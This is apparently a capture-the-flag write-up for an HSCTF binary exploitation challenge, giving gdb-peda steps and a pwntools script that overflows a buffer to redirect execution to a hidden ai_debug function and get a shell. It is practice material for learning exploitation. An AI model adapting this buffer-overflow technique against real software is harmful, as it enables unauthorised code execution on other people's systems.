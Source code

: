 # file 
[chal](https://github.com/fahimalshihab/CTF/blob/5c2cca8d1bd3a5eccd40ad519610ad25783d7049/Binary%20Exploitation/Return%20To%20Shellcode/HSCTF)

# SOL
- found that ai_debug has bash shell so
- gdb-peda$ pattern create 100
- gdb-peda$ pattern offset AA0A
- gdb-peda$ info functions ai_debug
- and return address to main


```
#!/usr/bin/python3

from pwn import *

#p = remote(host, port)
elf = ELF('./chal')
p = elf.process()

offset = 40
addr = 0x401258
ret = 0x4012f3

junk = b'A' * offset
le_num = p64(addr)
le_ret = p64(ret)
buffer = junk + le_ret + le_num



p.sendline(buffer)
p.interactive()
```
